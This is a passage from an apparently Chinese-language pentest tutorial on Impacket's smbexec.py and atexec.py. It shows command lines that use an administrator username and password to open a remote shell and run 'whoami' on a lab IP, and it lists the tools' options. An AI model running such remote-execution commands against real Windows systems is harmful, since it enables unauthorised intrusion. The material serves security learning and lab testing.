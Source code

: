#### 常用命令

**交互式 Shell**

```plain
py -3 smbexec.py test/administrator:1qaz@WSX@192.168.40.156
```

[![](assets/1702372846-49fec96a0e529a64f11e16a628d8ba32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123005-ab53a01e-6bb0-1.png)

#### 常用选项

```plain
-share SHARE 自定义回显的共享路径，默认为 C$
-mode {SHARE,SERVER} 设置 SHARE 回显或者 SERVER 回显，SERVER 回显需要 root linux
-shell-type {cmd,powershell} 设置返回的 Shell 类型
```

### atexec.py

可使用密码认证、hash 认证、kerberos 认证。

脚本使用前可修改一下回显的共享路径

#### 常用命令

**执行命令获得回显**

```plain
py -3 atexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[![](assets/1702372846-babd7f3ddaa59b044c15146953b421e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123158-eed26a6e-6bb0-1.png)

#### 常用选项

[![](assets/1702372846-d59c107e0f27d899a98c1f4ba4119311.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123225-ff09fdac-6bb0-1.png)
